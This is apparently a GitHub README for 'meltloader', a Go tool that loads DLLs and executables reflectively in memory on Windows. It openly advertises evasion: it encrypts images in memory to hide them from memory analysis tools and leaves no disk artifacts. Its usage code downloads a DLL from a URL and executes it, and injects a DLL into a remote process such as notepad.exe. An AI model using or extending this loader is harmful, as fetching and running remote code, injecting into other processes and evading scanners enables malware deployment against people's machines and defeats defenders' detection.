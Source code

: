 # meltloader

a reflective dll/pe loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## demo
>now supports PEs
![melt](https://github.com/user-attachments/assets/819639da-32ca-4393-8945-0e4c0b8145d6)

## overview

meltload implements reflective dll/pe loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

also works with go compiled dlls, see go-dll-src/ for reference 

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

pid, pHandle, err := pe.FindTargetProcess("notepad.exe")
if err != nil {
	log.Printf("[main] failed to find process: %v", err)
	fmt.Println("failed to find process", err)
	return
}
_, err = pe.LoadDLLRemote(pHandle, pid, "path/to/dll.dll", "ExportedFunction")
if err != nil {
	log.Printf("[main] LoadDLLRemote failed: %v", err)
	fmt.Println("failed to load", err)
	return
}
log.Printf("[main] LoadDLLRemote succeeded")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()

// cleanup/unmap dll from memory
err = pe.Melt(mapping)

// cleanup/ummap exe from memory 
err = pe.MeltPE(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is opsec iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
